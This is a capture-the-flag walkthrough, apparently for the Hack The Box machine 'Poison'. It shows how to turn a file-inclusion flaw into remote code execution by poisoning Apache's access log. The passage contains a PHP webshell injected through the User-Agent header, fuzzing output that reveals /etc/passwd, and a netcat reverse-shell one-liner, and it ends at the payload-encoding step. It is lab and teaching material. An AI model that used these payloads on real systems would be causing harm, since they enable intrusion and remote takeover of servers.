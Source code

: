 



# Initial Foothold - 1

## TCP/80 (HTTP) - LFI2RCE via Apache Log Poisoning
1. Proceed to `http://poison.htb/browse.php`, it is susceptible to LFI
2. Include files that could lead to RCE
	```
	┌──(root💀kali)-[~/htb/poison]
	└─# ffuf -u http://poison.htb/browse.php?file=../../../../../../..FUZZ -w /usr/share/wordlists/LFI/file_inclusion_linux.txt  -fw 16,34,31
	
	../../../../../../../../../../../../../etc/group [Status: 200, Size: 546, Words: 8, Lines: 41]
	../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 1894, Words: 58, Lines: 33]
	../../var/log/httpd-access.log [Status: 200, Size: 766232, Words: 68690, Lines: 3822]
	/usr/local/etc/php.ini  [Status: 200, Size: 48, Words: 3, Lines: 2]
	/etc/termcap            [Status: 200, Size: 208384, Words: 11942, Lines: 4668]
	/usr/ports/ftp/pure-ftpd/ [Status: 200, Size: 421, Words: 32, Lines: 5]
	/var/log                [Status: 200, Size: 388, Words: 32, Lines: 5]
	/var/log/messages       [Status: 200, Size: 76, Words: 11, Lines: 2]
	/var/run/httpd.pid      [Status: 200, Size: 4, Words: 1, Lines: 2]
	/var/log/Xorg.0.log     [Status: 200, Size: 118208, Words: 18481, Lines: 3361]
	/var/log/httpd-access.log [Status: 200, Size: 1026829, Words: 94117, Lines: 5242]
	```
	- `/var/log/httpd-access.log` 
		- potentially we can [poison apache logs](https://yufongg.github.io/posts/LFI/#apache-log-poisoning) by inserting webshell in the `User-Agent` field
2. Check if `/var/log/httpd-access.log` can be accessed
		![]({{ page.img_path }}Pasted%20image%2020220831054751.png)
	- After confirming it, you should reset the machine so that page loads faster
3. Insert webshell
	```
	┌──(root💀kali)-[~/htb/poison]
	└─# curl "http://poison.htb/" -H "User-Agent: <?php system(\$_GET['c']); ?>"^C
	```
4. Test RCE
	```
	┌──(root💀kali)-[~/htb/poison]
	└─# curl http://poison.htb/browse.php?file=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fvar%2Flog%2Fhttpd-access.log&c=id;whoami
	```
	![]({{ page.img_path }}Pasted%20image%2020220831055006.png)
5. Start listener
6. URL Encode payload
	```
	┌──(root💀kali)-[~/htb/poison/10.10.10.84/exploit]
	└─# hURL -U 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.31 4444 >/tmp/f'
	